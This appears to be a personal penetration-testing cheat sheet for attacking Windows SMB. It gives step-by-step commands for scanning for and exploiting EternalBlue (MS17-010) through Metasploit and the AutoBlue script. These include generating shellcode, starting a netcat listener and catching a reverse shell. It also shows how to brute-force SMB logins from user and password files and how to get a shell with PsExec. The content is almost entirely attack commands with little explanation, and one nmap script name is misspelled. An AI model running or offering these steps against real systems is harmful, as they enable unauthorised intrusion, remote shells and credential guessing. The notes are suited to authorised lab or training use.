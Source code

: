 # Eternal Blue

## Scan to check if vulnerable
nmap -sV -p 445 --script=sbm-vuln-ms17-010 TARGET

## Metasploit
search eternalblue
(Scanner) auxiliary/scanner/smb/smb_ms17_010
(Exploit) exploit/windows/smb/ms17_010_eternalblue

## AutoBlue-MS17-010
Via github
Have to generate shellcode to exploit
Execute prior 
Generate a stageless payload 
Start netcat listener 
  Nc -nvlp 1234 (port you set up prior)
In the eternalblue_exploit directory in a different prompt
  Change mod
  Python eternalblue_exploit7.py TARGET shellcode/sc_x64.bin
Will have a connection in the netcat terminal 

# PsExec

(Scan to find supported protocoles and dialets of server) 

nmap -p445 --script smb-protocols TARGET

## start metasploit for login

auxiliary/scanner/smb/smb_login -> set User and Pass File

## Authenticate 

psexec.py user@TARGET cmd.exe (COMMAND)

## Authenticate with metasploit

search psexec
choose module: exploit/windows/smb/psexec -> set SMBuser and SMBpass
